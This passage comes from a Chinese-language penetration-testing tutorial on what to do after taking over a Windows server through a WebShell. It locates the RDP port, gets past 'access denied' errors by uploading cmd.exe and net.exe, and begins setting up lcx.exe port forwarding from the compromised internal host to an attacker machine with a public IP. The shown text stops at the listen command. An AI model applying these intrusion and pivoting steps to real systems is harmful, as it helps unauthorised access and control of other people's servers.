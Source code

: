 现在我们查看远程连接的端口，首先执行`tasklist /svc`，寻找`TermService`：

![](http://upload-images.jianshu.io/upload_images/118142-7148e693db4563e4.jpg)

我们看到它的 PID 为 1504。之后执行`netstat -ano`：

![](http://upload-images.jianshu.io/upload_images/118142-788dc8fc6737406e.jpg)

寻找 PID 为 1504 的一行，可以看到它的端口是 3389。

需要远程连接的时候，输入刚刚创建的用户名和密码就可以了。

## 突破限制

假如说我们在实际情况中看到了`[Err]拒绝访问`：

![](http://ww4.sinaimg.cn/large/841aea59jw1fb4cdxua7dj20f005ojre.jpg)

那我们可以找到自己电脑上的`cmd.exe`，然后上传上去。比如上传路径如下：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb4cde71lej20sl0a8759.jpg)

我们就可以执行`setp <路径>\cmd.exe`：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb4cdj9462j20iu05r0su.jpg)

我们再来看各种命令：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb4cdmk7agj20rm0f30te.jpg)

![](http://ww2.sinaimg.cn/large/841aea59jw1fb4cdplki6j20df03twef.jpg)

`net user`还是拒绝访问的，我们用老方法，找到自己电脑中的`net.exe`，然后传上去。之后执行`<路径>\net.exe user`：

![](http://ww4.sinaimg.cn/large/841aea59jw1fb4cdsd6xgj20hq04174a.jpg)

可以看到突破了限制。

## 端口转发

在提权过程中，我们经常碰到这样的情况：

![](http://ww4.sinaimg.cn/large/841aea59jw1fb56mw6pk7j20d508mwew.jpg)

我们可以看到 WebShell 的主机处于内网下，内网的意思就是说，它能连接别人，但别人不能连接它，就跟连接路由器的个人电脑差不多。

那么这种情况下，我们就需要用到端口转发工具`lcx.exe`，除此之外，还需要一台拥有外网 IP 的主机。这里我们把内网的主机叫做肉鸡，独立 IP 主机叫做本机。

将`lcx.exe`上传至本机和肉鸡之后，首先确定本机的 IP 为`119.90.140.191`：

![](http://ww3.sinaimg.cn/large/841aea59jw1fb56n00sppj208h020743.jpg)

然后我们在本机执行：

```
lcx.exe -listen 51 3388
```
